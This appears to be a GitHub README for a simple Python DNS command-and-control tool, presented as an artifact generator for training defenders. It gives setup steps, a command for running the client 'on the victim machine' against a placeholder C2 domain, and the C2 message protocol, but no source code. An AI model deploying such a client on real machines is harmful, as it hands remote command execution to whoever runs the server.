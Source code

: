 # ObviousDNSC2
Simple DNS C2 with Python client and server

## Purpose
A plain-as-possible DNS C2 framework with both client and server written in Python. This is designed as an artifact generation tool for training defenders.

## Setup
Configure a DNS record (like, with a legit registrar) with an NS record that points to a public asset you control. Example:
`odc2.SomeDomainIOwn.com`, pointing to `myVPC.SomeDomainIOwn.com`.

On that VPC, install and run the server, e.g., `sudo python3 odc2server.py odc2.SomeDomainIOwn.com`

On the victim machine, run `odc2client.py -d odc2.SomeDomainIOwn.com`

## Message Flow
`Client             Server`  
`CHK                NUL`  
`CHK                HDR<num CMD pkts>`  
`CON<last pkt num>  CMD<pkt num>`  
`HDR<num RES pkts>  ACK<num RES pkts>`  
`RES<pkt num>       ACK<pkt num>`  

`STP` from server ends current `RES` thread
`DIE` from server closes client
